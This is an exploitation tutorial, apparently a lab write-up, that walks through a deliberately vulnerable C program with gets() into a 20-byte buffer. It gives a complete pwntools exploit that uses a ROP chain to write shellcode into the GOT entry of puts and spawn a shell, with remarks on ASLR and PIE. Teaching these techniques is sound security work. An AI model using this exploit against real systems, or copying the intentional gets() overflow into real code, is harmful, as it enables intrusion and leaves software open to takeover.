 # ROP and Shellcode

## Source

{% file src="../../../.gitbook/assets/reliable\_shellcode-32.zip" caption="Reliable Shellcode - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    char buffer[20];

    puts("Give me the input");

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```

Super standard binary.

## Exploitation

Let's get all the basic setup done.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we're going to do something interesting - we are going to call `gets` again. Most importantly, we will tell `gets` to write the data it receives to a section of the binary. We need somewhere both readable and writeable, so I choose the GOT. We pass a GOT entry to `gets`, and when it receives the shellcode we send it will **write the shellcode into the GOT**. Now we know _exactly where the shellcode is_. To top it all off, we set the return address of our call to `gets` to where we wrote the shellcode, perfectly executing what we just inputted.

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])      # Call gets, writing to the GOT entry of puts
rop.raw(elf.got['puts'])       # now our shellcode is written there, we can continue execution from there

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])      # Call gets, writing to the GOT entry of puts
rop.raw(elf.got['puts'])       # now our shellcode is written there, we can continue execution from there

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 64-bit

I wonder what you could do with this.

{% file src="../../../.gitbook/assets/reliable\_shellcode-64.zip" caption="Reliable Shellcode - 64-bit" %}

## ASLR

No need to worry about ASLR! Neither the stack nor libc is used, save for the ROP.

The real problem would be if PIE was enabled, as then you couldn't call `gets` as the location of the PLT would be unknown without a leak - same problem with writing to the GOT.

